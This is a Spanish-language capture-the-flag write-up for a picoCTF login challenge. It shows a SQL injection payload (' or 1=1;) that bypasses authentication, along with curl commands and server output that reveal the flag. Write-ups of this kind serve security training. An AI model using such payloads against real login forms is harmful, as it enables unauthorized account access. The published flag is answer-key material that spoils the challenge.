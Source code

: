 ## Objetivo
There is a website running at `https://jupiter.challenges.picoctf.org/problem/50009/` ([link](https://jupiter.challenges.picoctf.org/problem/50009/)) or http://jupiter.challenges.picoctf.org:50009. Do you think you can log us in? Try to see if you can login!

## Pistas
- There doesn't seem to be many ways to interact with this. I wonder if the users are kept in a database?
- Try to think about how the website verifies your login.

## Solución
```
username: admin
password: admin
SQL query: SELECT * FROM users WHERE name='admin' AND password='admin'

# Login failed.


username: ' or 1=1;
password: admin
SQL query: SELECT * FROM users WHERE name='' or 1=1;' AND password='admin'

# Logged in!

Your flag is: picoCTF{s0m3_SQL_fb3fe2ad}



Solucion en consola:
C:\Users\yahir>curl https://jupiter.challenges.picoctf.org/problem/50009/login.php -d "username=admin&password=admin"
<h1>Login failed.</h1>
C:\Users\yahir>curl https://jupiter.challenges.picoctf.org/problem/50009/login.php -d "username=' or 1=1;&password=admin&debug=1"
<pre>username: ' or 1=1;
password: admin
SQL query: SELECT * FROM users WHERE name='' or 1=1;' AND password='admin'
</pre><h1>Logged in!</h1><p>Your flag is: picoCTF{s0m3_SQL_fb3fe2ad}</p>
```

## Notas adicionales
- el parametro -d del curl puede enviar datos
- el ampersand permite separar los parametros que se van a enviar

## Referencias

